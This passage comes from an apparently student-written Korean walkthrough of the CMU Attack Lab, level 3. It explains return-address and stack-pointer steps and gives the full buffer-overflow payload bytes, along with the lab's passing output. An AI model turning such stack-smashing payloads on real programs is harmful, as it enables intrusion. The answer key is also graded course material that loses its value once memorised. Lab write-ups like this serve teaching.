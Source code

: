             <td>
                pop %rdi<br /><br /><code>getbuf</code>에서 <code>ret</code>를 수행한 이후에  <code>rsp</code>는 문자열의 주소를 가리키고 있기 때문에, pop %rdi를 하면 <code>rdi</code>에 cookie가 있는 문자열의 주소를 적재할 수 있다.
            </td>
        </tr>
            <tr>
            <td style="text-align: right">
                <+41>
            </td>
            <td style="text-align: left">
                c3
            </td>
            <td>
                <code>ret</code><br /><br />pop %rdi를 수행한 이후에 <code>rsp</code>는 <code>touch3</code>의 주소를 가리키고 있으므로, <code>ret</code>를 통해 <code>rdi</code>에 문자열 <code>cookie</code>의 주소가 담긴 채로 <code>touch3</code>을 실행할 수 있다.
            </td>
        </tr>
        </tbody>
</table>


### Answer

#### sol3.hex

```json
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 d6 60 55 00 00 00 00
68 d6 60 55 00 00 00 00
b6 19 40 00 00 00 00 00
37 38 39 36 30 31 37 33
00 00 00 00 00 00 00 00
5f
c3
```

#### Result

```r
$ cat sol3.hex | ./hex2raw | ./ctarget -q
Cookie: 0x78960173
Type string:Touch3!: You called touch3("78960173")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	84
	course	15213-f15
	lab	attacklab
	result	84:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 D6 60 55 00 00 00 00 68 D6 60 55 00 00 00 00 B6 19 40 00 00 00 00 00 37 38 39 36 30 31 37 33 00 00 00 00 00 00 00 00 5F C3
```
